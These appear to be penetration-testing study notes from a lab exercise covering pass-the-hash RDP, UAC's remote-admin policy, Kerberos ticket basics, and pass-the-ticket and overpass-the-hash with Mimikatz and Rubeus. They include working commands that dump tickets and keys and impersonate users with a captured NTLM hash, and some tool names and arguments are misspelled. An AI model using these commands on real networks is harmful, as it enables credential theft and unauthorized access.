 ```shell
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B /scale-desktop:200 /scale:180 /scale-desktop:200 /scale:180
```

### #UAC Limits 

UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

# Kerberos Protocol
#Kerberos
Idea is to not give an account password to every service you use. Instead Kerberos keeps all tickets on the local system and presents each service the specific ticket for that service. 
This prevents a ticket being used for 2 service. 

- The `TGT - Ticket Granting Ticket` is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or `TGS`.
- The `TGS - Ticket Granting Service` is requested by users who want to use a service. These tickets allow services to verify the user's identity.

To Request a TGT they must authenticate with the DC by encrypting the current timestamp with their password hash.
The DC can validate the identity as they know the hash and will then send a TGT for future requests. 
After this ticket, they do not need to prove who they are with their password. 
If the user wants to connect to an MSSQL database, it will request a Ticket Granting Service (TGS) to The Key Distribution Center (KDC), presenting its Ticket Granting Ticket (TGT). Then it will give the TGS to the MSSQL database server for authentication.

## [Pass the Ticket (PtT) from Windows](https://attack.mitre.org/techniques/T1550/003/)

#### Harvesting Tickets 
Tickets that end in $ are computer account, 
User tickets have the user name followed by a @ that seperates the service name and domain. 
	`[randomvalue]-username@service-domain.local.kirbi`.
To get all tickets will need to execute as admin

##### #MimiKatz
```cmd
mimikatz.exe privilige::debug "sekurlsa::tickets /export"
```
##### Rebues.exe
```cmd
Ruebues.exe dump /nowrap
```

### Pass the Key or OverPass the Hash
Converts a hash/key for a domain-joined user into a full Ticket-Granting-Ticket (TGT)
#### Mimikatz 
```cmd
privilege::debug

sekurlsa::ekeys
```
Create a cmd.exe to request access to any service for the target user
```cmd
sekurlsa::pth /domain:<domain> /user:<user> /ntlm:hash
```
	Mimikatz requires admin privileges and rubeus doesn't to PtK